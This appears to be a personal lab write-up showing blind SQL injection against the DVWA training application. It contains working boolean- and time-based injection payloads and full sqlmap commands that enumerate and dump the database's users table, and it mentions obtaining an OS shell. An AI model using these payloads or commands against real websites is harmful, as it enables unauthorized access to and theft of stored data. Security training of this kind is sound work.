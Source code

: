 ```yaml
---
title: "Blind SQL Injection"
date: 2025-01-30T16:06:04+01:00
draft: false
tags: ["Caido", "Firefox", "Proxy", "Web", "upload"]
categories: ["Hacking"]
description: "A practical walkthrough of exploiting Blind SQL Injection vulnerabilities in DVWA. Learn manual and automated techniques, including boolean and time-based attacks, and see how to leverage tools like SQLmap and Caido for database extraction and exploitation."
---
```


 Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. 

https://portswigger.net/web-security/sql-injection/blind

Low:

![screenshot](1.png)

```1' and sleep(5)#```

![screenshot](2.png)

This command will help us determine how many columns there are.
1' and order by 1
1' and order by 2


This will verify the length of the database(rows): 
```1' and length(database())=4#```

![screenshot](3.png)

![screenshot](4.png)


Medium:

This one there is no button so you need to use Burp or Caido 

```id=1+and+sleep(5)+Submit=Submit```  will give us a 5 second sleep

![screenshot](5.png)


High:

In this instance, we have a seperate input screen

![screenshot](6.png)

##SQLmap

We would now like to use SQLmap to help automate the process.

Submit something into the field: 1
	- Copy the URL 
	- Take the cookie from the 'inspect' page under 'Storage', 'Cookies'

![screenshot](7.png)	


```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=bdfct00lniuj5o662f8qo13qgg"```

![screenshot](8.png)

![screenshot](9.png)

![screenshot](10.png)

Info:

	Linux | MySQL
	SLEEP: injectable
	UNION: Injectable
	2 Columns 
	
Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ```id=1' AND 5985=5985 AND 'XjUI'='XjUI&Submit=Submit```

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ```id=1' AND (SELECT 3077 FROM (SELECT(SLEEP(5)))MsJJ) AND 'HcJn'='HcJn&Submit=Submit```

To view the results use sqllitebrowser:
	navigate to: /home/kali/.local/share/sqlmap/output/192.168.10.123
	 sqlitebrowser session.sqlite

![screenshot](11.png)

We can use this command to find the name of the database:
```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" --dbs```

![screenshot](12.png)

Which gives up the name: dvwa
This command will give up the names of the tables:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="P" -D dvwa --tables```

users and guestbook

Command to get the info out of the users table

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --columns```

Or:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --dump```

![screenshot](13.png)

![screenshot](14.png)


So, the other 'guestbook' table was full of my injection attempts. 

![screenshot](15.png)

What seems like an easier way to do this is to create a file containing the GET request. 
Grab the get request from caido/burp
Paste it into Vi or any text editor
use the command: ```sqlmap -r [filename] --dump```

This will give you a dump of everything in all of the databases associated with the website. 

![screenshot](16.png)

![screenshot](17.png)

If you need a shell:
```sqlmap -r [filename] --os-shell``` (I struggled to get this working and didn't have time to explore)

Wizard: Low
```sqlmap --wizard --dump```
Then enter the url: ```http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#```

Wizard: Medium
```sqlmap --wizard --dump```